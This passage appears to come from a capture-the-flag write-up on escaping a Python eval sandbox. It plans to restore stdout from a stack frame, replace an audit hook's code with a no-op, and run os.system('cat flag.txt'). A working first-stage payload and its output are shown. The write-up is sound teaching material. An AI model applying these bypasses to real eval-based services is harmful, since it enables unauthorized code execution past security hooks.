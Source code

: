 Okay, so let's mind-map the steps of our payload:

1. Restore `sys.stdout` to the value of `challenge_original_stdout` found in the stack frame of `guesser()`
2. Change `my_audit_hook.__code__`  to a function that is a noop.
3. Invoke `os.system('cat flag.txt')` to get the flag.

As we can already see, our payload consists of multiple statements. This is problematic since we are inside an `eval` and we can only have a single statement. Another issue is that we want to assign a value to `my_audit_hook.__code__`, which is again problematic inside an `eval`. For example, `myobj.x=1` is not allowed inside an `eval` as it is not an expression. How can we overcome these challenges?

For our first problem, we can simply use a list. We can represent multiple expressions as: `[expr1, expr2, ...]`. For example:
```python
In [36]: eval('[1+1, 2+2]')
Out[36]: [2, 4]
```

For our second problem, the notation `myobj.x=1` is just syntactic sugar.

```bash
In [44]: class Foo:
    ...:     def __init__(self):
    ...:         self.x = 0
    ...:

In [45]: foo = Foo()

In [46]: foo.x = 1

In [47]: foo.x
Out[47]: 1

In [48]: foo.__setattr__('x', 2)

In [49]: foo.x
Out[49]: 2
```

So, `my_audit_hook.__code__=noop.__code__` is the same as `my_audit_hook.__setattr__('__code__', noop.__code__)`.

Okay, let's try to construct our payload now!

### Payload construction

#### Restoration of `sys.stdout`

Let's restore `sys.stdout` to its original value and do a dummy `print()` as proof of concept:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
```
`[__builtins__['__import__']('sys').__setattr__('stdout', list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals['challenge_original_stdout']), print("Hello World!")]`
```bash
Hello World!
Guess game end!!!
```

